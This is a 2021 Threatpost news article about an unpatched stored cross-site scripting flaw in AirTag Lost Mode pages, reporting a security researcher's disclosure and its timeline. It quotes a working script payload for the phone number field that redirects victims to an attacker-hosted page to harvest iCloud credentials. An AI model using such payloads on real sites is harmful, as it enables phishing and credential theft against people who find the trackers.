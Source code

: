 # Apple AirTag Zero-Day Weaponizes Trackers
### Apple’s personal item-tracker devices can be used to deliver malware, slurp credentials, steal tokens and more thanks to XSS.

## Information:
+ Source: ThreatPost
+ Link: [article](https://kasperskycontenthub.com/threatpost-global/?p=175143)
+ Date: September 29, 2021  4:48 pm
+ Author: Tara Seals


## Article:
![](https://media.threatpost.com/wp-content/uploads/sites/103/2021/09/29163222/airtag-e1632947561894.jpg)
An unpatched stored cross-site scripting (XSS) bug in Apple’s AirTag “Lost Mode” could open up users to a cornucopia of web-based attacks, including credential-harvesting, click-jacking, malware delivery, token theft and more.


That’s according to Bobby Rauch, an independent security researcher who said that it’s possible to use the zero-day to fully weaponize an AirTag, with the ability to attack random strangers (or specific targets) should they interact with it.


Stored XSS, also known as persistent XSS, [occurs when](https://threatpost.com/xss-bug-seopress-wordpress-plugin/168702/) a malicious script is injected directly into a vulnerable web application. An attack then only requires that a victim visit a compromised web page.


[![Infosec Insiders Newsletter](https://media.threatpost.com/wp-content/uploads/sites/103/2021/07/10165815/infosec_insiders_in_article_promo.png)](https://threatpost.com/infosec-insider-subscription-page/?utm_source=ART&utm_medium=ART&utm_campaign=InfosecInsiders_Newsletter_Promo/)


A word about how AirTags work: Apple’s AirTags are personal tracking devices that can be attached to keys, backpacks and other items. If an AirTagged item is lost and nearby, a user can “ping” the AirTag, which will emit a sound and allow it to be tracked down. If it’s further afield (left behind in a restaurant etc.), the AirTag sends out a secure Bluetooth signal that can be detected by nearby devices in Apple’s Find My network (which [has had its own issues](https://threatpost.com/apple-find-my-exploited-bluetooth/166121/) in the past). These devices send the location of the AirTag to iCloud — and the user can open the Find My app and see the lost item on a map.


The Lost Mode function goes hand in hand with the further-afield function. If an AirTag doesn’t show up in the Find My app, a user can mark the AirTag as missing, and will get an alert if it’s later picked up by the Find My network.


But the problematic part of Lost Mode has to do with a different perk: If a stranger finds an AirTag in Lost Mode and scans it via near-field communication (NFC), it generates a unique https://found.apple.com page, containing its serial number, phone number and a personal message for anyone discovering it. The idea is to let people “turn in” missing items to their rightful owners.


The issue, according to Rauch, is that these pages don’t have protection for stored XSS – so, an attacker can inject a malicious payload into the AirTag using the Lost Mode phone number field.


In one attack scenario, cybercriminals can use XSS code to redirect victims to the attacker’s fake iCloud page, which has a keylogger installed to capture their credentials.


“A victim will believe they are being asked to sign into iCloud so they can get in contact with the owner of the AirTag, when in fact, the attacker has redirected them to a credential-hijacking page,” Rauch said, in [a Tuesday posting](https://medium.com/@bobbyrsec/zero-day-hijacking-icloud-credentials-with-apple-airtags-stored-xss-6997da43a216). “”Since Airtags were recently released, most users would be unaware that accessing the https://found.apple.com page doesn’t require authentication at all.”


He added, “An attacker can create weaponized AirTags and leave them around, victimizing innocent people who are simply trying to help a person find their lost AirTag.”


Rauch provided an example malicious payload to be entered into the phone number field: “<script>window.location=’https://10.0.1.137:8000/indexer.html’;var a = ”;</script>”. He also noted that AirTags could be weaponized to carry out all sorts of attacks.


“[This is] only one example of the dangers of stored XSS,” he wrote in a Tuesday analysis. “There are countless ways an attacker could victimize an end user who discovers a lost AirTag…The https://found.apple.com link can also be used as a phishing link, and shared via a desktop/laptop, without the need for a mobile device to scan the Airtag. Further injection attacks could occur through the Find My App, which is used to scan third-party devices that support “Lost Mode” as part of Apple’s Find My network.”


The bug has yet to be patched, although Rauch [told](https://krebsonsecurity.com/2021/09/apple-airtag-bug-enables-good-samaritan-attack/) Brian Krebs that he reported it to Apple on June 20. Last week, the company told him that it waplanning to patch “in an upcoming update.”


Absent being given a timeline for a fix or any response to his multiple questions about credit and acknowledgement, Rauch told Krebs he decided to go public.


***Check out our free***[***upcoming live and on-demand webinar events***](https://threatpost.com/category/webinars/) ***– unique, dynamic discussions with cybersecurity experts and the Threatpost community.***




#### Tags:
[[AirTag]] [[Apple’s]] [[AirTags]] [[Rauch]] [[it’s]] [[AirTag,]] [[iCloud]] [[https://found.apple.com]] [[ThreatPost]]
